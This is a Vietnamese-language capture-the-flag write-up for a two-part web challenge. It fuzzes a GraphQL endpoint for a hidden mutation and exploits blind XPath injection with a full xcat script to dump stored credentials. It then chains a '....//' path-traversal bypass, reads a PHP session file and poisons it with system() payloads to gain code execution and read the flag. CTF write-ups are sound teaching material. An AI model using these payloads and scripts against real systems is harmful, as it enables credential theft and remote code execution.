




# web/Vibed Intranet Part 1&2

# Part 1

## Recon ban đầu



Thử login với tài khoản bất kỳ:

```text
Username: a
Password: a
```

Burp bắt được request tới endpoint `/graphql`:


Như vậy backend sử dụng GraphQL tại:

```text
/graphql
```

## Kiểm tra GraphQL field suggestion

Thử sửa mutation từ `login` thành `log`:



Điều này xác nhận GraphQL server có bật field suggestion. Khi gọi sai tên field, server sẽ gợi ý field gần đúng. Đây là điểm quan trọng vì introspection có thể bị tắt, nhưng field suggestion vẫn leak được tên mutation ẩn.

## Tìm mutation ẩn

Dùng wordlist này:

```
git clone https://github.com/Escape-Technologies/graphql-wordlist
```

Rồi fuzz:
```
ffuf -w graphql-wordlist/wordlists/mutationFieldWordlist.txt:FUZZ \
-u https://vibed-intranet-p1-05ec2a6cf75a19f7.tjc.tf/graphql \
-X POST \
-H 'Content-Type: application/json' \
-d '{"query":"mutation Login($username: String!, $password: String!) {\n  FUZZ(username: $username, password: $password) {\n    authenticated\n    message\n    token\n    tokenExpiresAt\n  }\n}","variables":{"username":"a","password":"a"}}' \
-mc all -fs 0-200
```

Test luôn kết quả đầu:
```
updateSnippet           [Status: 400, Size: 205, Words: 11, Lines: 2, Duration: 995ms]
```



Tìm được mutation ẩn:

```text
updateStudentX
```

## Xác định format đúng của `updateStudentX`

Thay mutation `updateStudentX`, ta nhận báo lỗi:

```
Unknown argument "password" on field "Mutation.updateStudentX".
Cannot query field "authenticated" on type "UpdateStudentXResult".
Cannot query field "token" on type "UpdateStudentXResult". Did you mean "ok"?
Cannot query field "tokenExpiresAt" on type "UpdateStudentXResult".
Field "updateStudentX" argument "description" of type "String!" is required, but it was not provided.
Field "updateStudentX" argument "grade" of type "Int!" is required, but it was not provided.
```

Vì mutation này không nhận `password`, đồng thời không có các field như `authenticated`, `token`, `tokenExpiresAt`.

=> Format đúng là:

```json
{
  "query": "mutation updateStudentX($username: String!, $description: String!, $grade: Int!) {\n  updateStudentX(username: $username, description: $description, grade: $grade) {\n    message\n    ok\n  }\n}",
  "variables": {
    "username": "a",
    "description": "a",
    "grade": 100
  }
}
```

Response:

```json
{
  "data": {
    "updateStudentX": {
      "message": "Token is required.",
      "ok": false
    }
  }
}
```

Dù server báo thiếu token, field `ok` vẫn có thể phản ánh kết quả xử lý phía backend.

## Xác nhận Blind XPath Injection

Thử payload luôn đúng:

```json
{
  "query": "mutation updateStudentX($username: String!, $description: String!, $grade: Int!) {\n  updateStudentX(username: $username, description: $description, grade: $grade) {\n    message\n    ok\n  }\n}",
  "variables": {
    "username": "a' or '1'='1",
    "description": "a",
    "grade": 100
  }
}
```

Response:

```json
{
  "data": {
    "updateStudentX": {
      "message": "Token is required.",
      "ok": true
    }
  }
}
```

Thử payload luôn sai:

```json
{
  "query": "mutation updateStudentX($username: String!, $description: String!, $grade: Int!) {\n  updateStudentX(username: $username, description: $description, grade: $grade) {\n    message\n    ok\n  }\n}",
  "variables": {
    "username": "a' or '1'='2",
    "description": "a",
    "grade": 100
  }
}
```

Response:

```json
{
  "data": {
    "updateStudentX": {
      "message": "Token is required.",
      "ok": false
    }
  }
}
```

=> Tham số `username` bị đưa vào XPath query không an toàn.

---

## Dump XML bằng xcat

Script dump XML:

```python
import asyncio
import json
from xcat import algorithms, utils
from xcat.attack import AttackContext, Encoding, Injection
from xcat.cli import get_features
from xcat.display import display_xml

URL = "https://vibed-intranet-p1-05ec2a6cf75a19f7.tjc.tf/graphql"

algorithms.ASCII_SEARCH_SPACE = "".join(map(chr, range(32, 127)))

def tamper(_, args):
    params = args.pop("params", None) or args.pop("data", None) or {}

    args["data"] = json.dumps(
        {
            "query": "mutation updateStudentX($username: String!, $description: String!, $grade: Int!) {\n  updateStudentX(username: $username, description: $description, grade: $grade) {\n    message\n    ok\n  }\n}",
            "variables": {
                "username": params["username"],
                "description": params["description"],
                "grade": int(params["grade"]),
            },
        }
    ).encode()

async def main():
    context = AttackContext(
        url=URL,
        method="POST",
        target_parameter="username",
        parameters={
            "username": "a",
            "description": "a",
            "grade": "100",
        },
        match_function=utils.make_match_function(None, (False, '"ok":true')),
        concurrency=5,
        fast_mode=False,
        body=None,
        headers={
            "Content-Type": "application/json",
            "Accept": "application/json",
        },
        encoding=Encoding.URL,
        oob_details=None,
        tamper_function=tamper,
    )

    inj = Injection(
        "or",
        "",
        (
            ("{working}' or '1'='1", True),
            ("{working}' or '1'='2", False),
        ),
        "{working}' or {expression} or '1'='2",
    )

    for feature, available in await get_features(context, inj):
        context.features[feature.name] = available

    async with context.start(inj) as bxpinj:
        await display_xml([await algorithms.get_nodes(bxpinj)])

asyncio.run(main())
```

Kết quả dump được XML chứa credential:

```xml
<tjPortal>
    <accounts>
        <account>
            <username>
                Andyrew
            </username>
            <password>
                amkji2ho2hO#*EH*(@Hhshag
            </password>
        </account>
    </accounts>
</tjPortal>
```

Credential thu được:

```text
Username: Andyrew
Password: amkji2ho2hO#*EH*(@Hhshag
```


## Flag part1

```text
tjctf{w0W_y0U_r3A1ly_w3Nt_1n_bL1ND}
```

---

# Part 2 

## Xác định endpoint preview

Sau khi login vào portal, ta thấy chức năng MOTD Upload.

Bấm Upload MOTD, Burp bắt được request:

```http
GET /preview.php?view=default.txt HTTP/2
Host: vibed-intranet-p1-05ec2a6cf75a19f7.tjc.tf
Cookie: PHPSESSID=53c9b76f9acca9dd1483ff10c3aaeee5
```

Response trả về nội dung MOTD mặc định:

```text
Welcome to the TJ Intranet. Please report any security vulnerabilities you find to staff!
```

Endpoint:

```text
/preview.php?view=
```

## Test Local File Inclusion

```text
....//....//....//....//....//etc/passwd
```

Response:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
andrew:x:1000:1000::/home/andrew:/bin/bash
```

Như vậy tham số `view` bị Local File Inclusion.

Lý do là server có filter xóa `../` nhưng chỉ xử lý một lần. Khi dùng `....//`, sau khi filter loại bỏ `../`, chuỗi có thể biến thành traversal hợp lệ dạng `../`.

## Đọc PHP session file bằng LFI

Có `PHPSESSID=53c9b76f9acca9dd1483ff10c3aaeee5`, nhập:

```text
....//....//....//....//....//var/lib/php/sessions/sess_53c9b76f9acca9dd1483ff10c3aaeee5
```

Response:

```text
username|s:7:"Andyrew";token_expires_at|s:24:"2026-05-30T16:10:20.673Z";recent_views|a:4:{i:0;s:11:"default.txt";i:1;s:11:"default.txt";i:2;s:40:"....//....//....//....//....//etc/passwd";i:3;s:88:"....//....//....//....//....//var/lib/php/sessions/sess_53c9b76f9acca9dd1483ff10c3aaeee5";}
```

Session có field:

```text
recent_views
```

Các giá trị từng nhập vào `view` được ghi lại trong session file. Đây là cơ sở để poison session bằng PHP code.

## Session poisoning để kiểm tra RCE

<!-- Ý tưởng:

1. Nhập PHP code vào ô **MOTD filename**.
2. App ghi giá trị đó vào `recent_views` trong session.
3. Dùng LFI include lại session file.
4. PHP code trong session file được parse và execute.

Trên giao diện web, nhập: -->

```php
<?php system("ls /home/"); ?>
```

Response:

```text
Document not found.
```

Điều này bình thường. Mục tiêu của request này không phải đọc file trực tiếp, mà là ghi PHP payload vào session.

Sau đó include lại session file bằng cách nhập:

```text
....//....//....//....//....//var/lib/php/sessions/sess_53c9b76f9acca9dd1483ff10c3aaeee5
```

Trong session output có thể thấy:

```text
;i:4;s:29:"andrew
";i:5;s:88
```

Điều này chứng minh payload đã được thực thi thành công và ta đã có RCE.

## Liệt kê thư mục `/home/andrew`

```php
<?php system("ls /home/andrew"); ?>
```

Sau đó include lại session file bằng cách nhập:

```text
....//....//....//....//....//var/lib/php/sessions/sess_53c9b76f9acca9dd1483ff10c3aaeee5
```

Trong session output:

```text
i:4;s:35:"2283274892734342376.txt
";i:5
```

## Đọc flag

Nếu đọc trực tiếp file:

```php
<?php system("cat /home/andrew/2283274892734342376.txt"); ?>
```

web có thể trả:

```text
This file type was blocked.
```

Nguyên nhân là trong `view` có literal `.txt`, filter của backend có thể nhận diện extension và chặn.

Bypass bằng wildcard `*` thay vì ghi trực tiếp tên file `.txt`.

```php
<?php system("cat /home/andrew/*"); ?>
```

Sau đó include lại session file lần cuối bằng cách nhập:

```text
....//....//....//....//....//var/lib/php/sessions/sess_53c9b76f9acca9dd1483ff10c3aaeee5
```



## Flag part2

```text
tjctf{l0gS_Ar3_fUn_aR3nT_1H3y}
```